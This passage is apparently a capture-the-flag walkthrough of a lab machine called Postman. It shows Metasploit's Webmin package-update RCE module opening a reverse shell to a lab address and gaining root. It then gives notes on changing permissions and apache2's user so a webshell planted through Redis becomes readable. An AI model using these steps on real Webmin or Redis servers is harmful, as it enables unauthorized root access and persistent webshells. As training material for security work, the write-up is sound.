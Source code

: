 4. Exploit!

	```
	msf6 exploit(linux/http/webmin_packageup_rce) > exploit
	
	[*] Started reverse TCP handler on 10.10.14.14:4444 
	[+] Session cookie: 901cb0ecb0496363e8b1a5d1405c87b2
	[*] Attempting to execute the payload...
	[*] Command shell session 4 opened (10.10.14.14:4444 -> 10.10.10.160:53168 ) at 2022-09-22 01:14:03 +0800
	
	shell
	[*] Trying to find binary 'python' on the target machine
	[*] Found python at /usr/bin/python
	[*] Using `python` to pop up an interactive shell
	[*] Trying to find binary 'bash' on the target machine
	[*] Found bash at /bin/bash
	id
	uid=0(root) gid=0(root) groups=0(root)
	root@Postman:/usr/share/webmin/package-upda
	```

	![](Pasted%20image%2020220922011448.png)

# Additional

## TCP/6379 (Redis key-value store 4.0.9) - Configuring RCE via Webshell to work

1. View permissions of `/var/www/html`

	```
	root@Postman:/var/www# ls -la 
	total 20
	drwxr-xr-x  3 root root 4096 Aug 25  2019 .
	drwxr-xr-x 13 root root 4096 Aug 25  2019 ..
	drwxr-xr-x  7 root root 4096 Aug 26  2019 html
	```

2. Allow `redis` user to write

	```
	root@Postman:/var/www# chown redis:redis html/
	root@Postman:/var/www# ls -la
	total 20
	drwxr-xr-x  3 root  root  4096 Aug 25  2019 .
	drwxr-xr-x 13 root  root  4096 Aug 25  2019 ..
	drwxr-xr-x  7 redis redis 4096 Aug 26  2019 html
	```

3. The file that is written through our commands in `redis-cli` is `rw-rw----`, since the webserver (`apache2`) is running as `www-data`, if `www-data` tries to read the webshell, it does not work. 
4. We have to make `apache2` run as user `redis`, we can do by changing `User` and `Group` in `apache2` configuration file
